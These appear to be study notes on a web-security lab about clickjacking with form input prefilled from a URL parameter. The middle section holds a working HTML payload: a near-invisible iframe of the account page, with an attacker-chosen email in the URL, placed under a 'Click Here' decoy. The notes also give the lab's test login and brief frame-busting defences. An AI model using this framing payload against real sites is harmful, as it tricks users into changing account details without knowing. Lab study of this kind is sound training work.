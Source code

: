 # Clickjacking with prefilled form input
- Some websites that require form completion and submission permit prepopulation of form inputs using GET parameters prior to submission. 
- Other websites might require text before form submission. 
- As GET values form part of the URL then the target URL can be modified to incorporate values of the attacker's choosing and the transparent "submit" button is overlaid on the decoy site as in the basic clickjacking example.

# Lab: Clickjacking with form input data prefilled from a URL parameter
- This lab extends the basic clickjacking example in Lab: Basic clickjacking with CSRF token protection. - The goal of the lab is to change the email address of the user by prepopulating a form using a URL parameter and enticing the user to inadvertently click on an "Update email" button.
- To solve the lab, craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. The lab is solved when the email address is changed.
- You can log in to your own account using the following credentials: wiener:peter
```
<head>
	<style>
		#target_website {
			position:relative;
			width:500px;
			height:500px;
			opacity: 0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
            top: 460px;
            left: 60px
			}
	</style>
</head>
...
<body>
	<div id="decoy_website">
        <button>Click Here</button>
	</div>
	<iframe id="target_website" src="https://0abf00bd0461943181c46b2c005f0001.web-security-academy.net/my-account/?email=hello%40test.co">
	</iframe>
</body>
```

# Frame busting scripts
- Clickjacking attacks are possible whenever websites can be framed. 
- Therefore, preventative techniques are based upon restricting the framing capability for websites. 
- A common client-side protection enacted through the web browser is to use frame busting or frame breaking scripts. 
- These can be implemented via proprietary browser JavaScript add-ons or extensions such as NoScript. 
- Scripts are often crafted so that they perform some or all of the following behaviors:
- check and enforce that the current application window is the main or top window, make all frames visible, prevent clicking on invisible frames, intercept and flag potential clickjacking attacks to the user.